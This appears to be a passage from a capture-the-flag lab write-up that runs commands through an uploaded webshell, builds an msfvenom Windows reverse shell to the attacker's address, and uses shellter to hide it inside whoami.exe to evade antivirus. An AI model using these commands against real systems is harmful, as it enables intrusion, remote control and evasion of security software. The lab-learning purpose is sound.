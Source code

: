Try checking the AV version through the webshell:

```bash
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=WMIC /Namespace:\\\\root\\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List"
```

![av](./buff/av.png)

Okay, the original payload was likely shot down by Windows Defender. Now make the payload evade anti-virus with `shellter`:

```bash
# generate payload again but in a raw format
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -a x86 \
         -f raw \
         -o bubba.bin
# install shellter 
sudo dpkg --add-architecture i386
sudo apt update
sudo apt -y install wine32 shellter
# copy over a normal windows binary
find / -iname whoami.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/whoami.exe .
# start binary
sudo shellter
```

Then add the payload `bubba.bin` into the binary `whoami.exe` with the following steps:

![shellter1.png](./buff/shellter1.png)

